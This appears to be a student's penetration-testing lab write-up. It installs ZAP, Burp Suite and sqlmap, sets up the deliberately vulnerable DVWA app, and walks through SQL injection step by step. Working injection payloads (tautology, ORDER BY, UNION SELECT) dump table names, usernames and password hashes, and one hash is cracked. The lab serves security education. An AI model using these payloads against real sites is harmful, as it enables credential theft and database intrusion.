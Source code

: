 # FUTURE_CS_01
---
# WEB APPLICATION SECURITY TESTING (TASK 01)
---
## Step by step with guidelines and procedures 
Task: Conducting a security test on a sample web application to identify vunerabilities like SQL Injection, XSS and authentication flaws.
Skills Gained: Web application security, ethical hacking, penetration testing.
Tools: OWASP ZAP, Burp suite, SQL Map.

**Prerequisites**
- Ubuntu VM (already set up)
- Internet connection to download tools
- Basic terminal knowledge

Since i already have Ubuntu VM, lets update my packages

## Step 1: Install Required Tools
Open a terminal and run these commands:

Code(terminal) - `sudo apt update && sudo apt upgrade -y`

If you already have python, theres not need for this step (down imogi)
Install Python and pip (required for many tools) - `sudo apt install python3 python3-pip -y`

Install Git (for cloning repositories) - `sudo apt install git -y`

Install OWASP ZAP - `sudo snap install zaproxy --classic`

**Note**: I am running snap intall zaproxy because i am using UBUNTU and --classic beacuse i need the access

Install sqlmap - `sudo apt install sqlmap -y`

Install Burp Suite Community Edition - `wget "https://portswigger.net/burp/releases/download?product=community&version=2023.12.4&type=Linux" -O burpsuite.sh`

`chmod +x burpsuite.sh`

`./burpsuite.sh`


## Step 2: Set Up a Sample Vulnerable Web App
For testing purposes, we'll use DVWA (Damn Vulnerable Web Application):

- Install LAMP stack (Linux, Apache, MySQL, PHP)
`sudo apt install apache2 mysql-server php libapache2-mod-php php-mysql -y`

- Download DVWA

`cd /var/www/html`

`sudo git clone https://github.com/digininja/DVWA.git`

`sudo chown -R www-data:www-data DVWA`

`sudo chmod -R 755 DVWA`

- Configure MySQL

`sudo mysql_secure_installation` (Follow prompts to set root password and secure installation)

- Create DVWA database
`sudo mysql -u root -p`


- In MySQL prompt:
  
CREATE DATABASE dvwa;

CREATE USER 'dvwa'@'localhost' IDENTIFIED BY 'p@ssw0rd';

GRANT ALL PRIVILEGES ON dvwa.* TO 'dvwa'@'localhost';

FLUSH PRIVILEGES;

exit


- Configure DVWA

`cd DVWA/config`

`sudo cp config.inc.php.dist config.inc.php`

`sudo nano config.inc.php`

Update these values:

`$_DVWA['db_user'] = 'dvwa';`

`$_DVWA['db_password'] = 'p@ssw0rd';`

`$_DVWA['db_database'] = 'dvwa';`

- Now lets restart Apache
`sudo systemctl restart apache2`

**we now access DVWA at `http://localhost/DVWA` in our browser. Login with admin/password.**

##Now Lets Do some cracking and Hacking(imoji)
First lets set the **SECURITY LEVEL** to **LOW**
DVWA Security → Set to Low.

##Some Basic SQLi (DVWA Security: Low)
The objective of this is to bypass the login and extract some database information like  the usernames and their respective password(imoji wink).

- Step 1: Finding the Vulnerable Input
Navigate to "SQL Injection" in DVWA on the left half screen because we're doing sqli

You'll see a form asking for User ID.

Step 2: We will test for Vulnerability (with inputs like ',1', 1' OR '1'='1)

Enter: `1' OR '1'='1` (in the user ID form) and click submit

It returns all users because the query becomes: `SELECT * FROM users WHERE user_id = '1' OR '1'='1';` which is always true and returns all data.

step 3: We try to extract the database information by finding the number of columms

We use **ORDER BY** to determine the number of ||s

We enter this ``1' ORDER BY 1-- -`` it displays true with the columns 
We enter this ``1' ORDER BY 2-- -`` it also displays true with the columns
now when we enter `1' ORDER BY 3-- -`, it fails or we get an error. Which mean we only have 2 columns not 3. This helps us in our next stage

- We extract the data using the UNION SELECT
  Since we only have 2 columns, we run -> `1' UNION SELECT 1,2-- -`

  Which displays the output of the columns 1 and 2

- Lets get the Database Name -> enter this -> `1' UNION SELECT 1,database()-- -`

the output should be **dvwa** which is the current database

Now for the big gun 

Lets get all the tables in the Databse(dvwa)
Enter -> `1' UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema='dvwa'-- -`

Output/result should be lists of the tables

users

guestbook

...

Finally Lets dump the usernames and the passwords

Enter -> `1' UNION SELECT user,password FROM users-- -`

It returns all the usernames and the **MD5 hash** which we crackk to get the passwords

we crack hashes using `https://crackstation.net/` (CrackStation)

First name: gordonb

Surname: e99a18c428cb38d5f260853678922e03

Cracked: abc123
